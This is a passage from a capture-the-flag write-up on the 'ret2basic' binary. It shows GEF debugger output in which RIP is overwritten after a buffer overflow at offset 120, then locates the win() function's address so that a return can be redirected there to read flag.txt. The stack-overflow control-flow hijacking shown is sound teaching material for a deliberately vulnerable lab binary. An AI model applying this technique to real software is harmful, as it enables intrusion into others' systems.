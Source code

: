 ```shell
$rip   : 0x424242424242
$r8    : 0x00007fffffffdcf0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x0
$r10   : 0xfffffffffffff24a
$r11   : 0x246
$r12   : 0x0000000000401100  →  <_start+0> endbr64
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd70│+0x0000: 0x0000000000401360  →  <__libc_csu_init+0> endbr64   ← $rsp
0x00007fffffffdd78│+0x0008: 0x00007ffff7e06cca  →  <__libc_start_main+234> mov edi, eax
0x00007fffffffdd80│+0x0010: 0x00007fffffffde68  →  0x00007fffffffe219  →  "/root/Documents/nahamcon/binary/ret2basic"
0x00007fffffffdd88│+0x0018: 0x0000000100000000
0x00007fffffffdd90│+0x0020: 0x000000000040133c  →  <main+0> push rbp
0x00007fffffffdd98│+0x0028: 0x00007ffff7e067d9  →  <init_cacheinfo+297> mov rbp, rax
0x00007fffffffdda0│+0x0030: 0x0000000000000000
0x00007fffffffdda8│+0x0038: 0x96382d43e61f4924
────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x424242424242
────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2basic", stopped 0x424242424242 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x $rip
0x424242424242: Cannot access memory at address 0x424242424242
```

So we have successfully gained control over RIP and the offset is 120.

## Exploitation

As we know the binary does not have an executable stack, but we can replace the address at the right location so that the ret call redirects the program counter to `win()` which will result in reading `flag.txt`

So now the last remaining piece of the puzzle is the address of `win` function.

```shell
gef➤  p win
$1 = {<text variable, no debug info>} 0x401215 <win>
```

